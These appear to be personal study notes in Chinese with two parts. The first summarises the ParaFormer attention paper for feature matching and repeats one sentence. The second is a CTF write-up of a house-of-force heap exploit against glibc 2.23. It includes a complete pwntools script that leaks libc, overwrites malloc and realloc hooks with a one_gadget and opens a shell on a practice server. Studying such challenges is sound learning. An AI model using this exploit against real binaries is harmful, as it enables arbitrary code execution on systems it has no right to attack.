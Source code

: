 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images/三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为 $p^X \in R^{M\times3}$, $p^Y \in R^{N\times3}$ ,  设置描述符分别为 $d^X \in R^{M\times C}$ , $d^Y \in R^{N\times C}$ 。波形的生成公式如下

$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\quad= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$

在Wave-PE中将位置 $p$ 和描述符 $d$ 分别映射为为幅度 $A$ 和相位 $\theta$ 通过MLP将其转换为位置编码  $x,[.,.] $  表示链接。

$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$

接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为 $Q、K、V$ 。然后并行计算自注意力和交叉注意力，自注意力的输入是 $(Q_x,V_x, K_x)$ 和 $(Q_y,V_y, K_y)$ 对于自注意力来说采用标准的注意力公式。

$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$

对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用 $(Q_xK_y^T)^T$ 来代替

 $Q_yK_x^T$ ，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$ ，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为 $x^l ∈ R^{N×D}$ ，注意力权重为 $A^l ∈ R^{N×N}$ 。提出的注意力池化定义为：

$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层 $l+1$ 的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分 $s∈R^N$ ,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$ 提取s中索引为 $idx$ 的值然后利用 $sigmoid$ 运算来生成gating信号， $\odot$ 表示逐元素矩阵乘法。

反池化上采样操作则为

$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$

 $x^l∈R^{k\times C^l}$ 是当前的特征矩阵， $0_{N \times C^{l+1}}$ 是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。 $idx ∈ R^k$ 是在对应池化层中选择的点的索引。然后根据 $idx$ 将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

